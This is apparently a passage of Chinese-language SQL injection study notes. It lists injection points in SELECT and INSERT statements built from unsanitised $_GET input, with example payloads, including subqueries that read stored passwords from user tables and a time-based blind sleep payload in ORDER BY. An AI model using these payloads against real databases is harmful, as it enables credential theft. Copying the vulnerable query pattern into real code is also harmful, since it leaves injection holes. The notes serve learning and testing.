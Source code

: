 ```sql
SELECT $_GET['id'],content FROM wp_news
```

可以调用

```
test.php?id=(select pwd from users) as title
```

或者盲注

### 注入点在table_reference

```sql
SELECT title,content FROM $_GET['table']
```

我们可以使用

```sql
SELECT title,content FROM (SELECT pwd as title FROM wp_user)
```

### 注入点在WHERE或者HAVING后

```sql
SELECT title FROM wp_news WHERE id=$_GET['id']
```

基本注入方法

### 注入点在GROUP BY 或ORDER BY 后

```sql
SELECT title FROM wp_news GROUP BY $_GET['title']
```

经过测试

```
title=id desc,(if(1,sleep(1),1))
```

会延迟一秒，可以延迟注入

### 注入点在LIMIT后

使用UNION注入，PROCEDURE注入(Mysql<5.6)或者基于时间的注入

## INSERT

```SQL
INSERT INTO tbl_name VALUES()
```

### 注入点位于tbl_name

```sql
INSERT INTO $_GET['table'] VALUES (2,2,2,2)
```
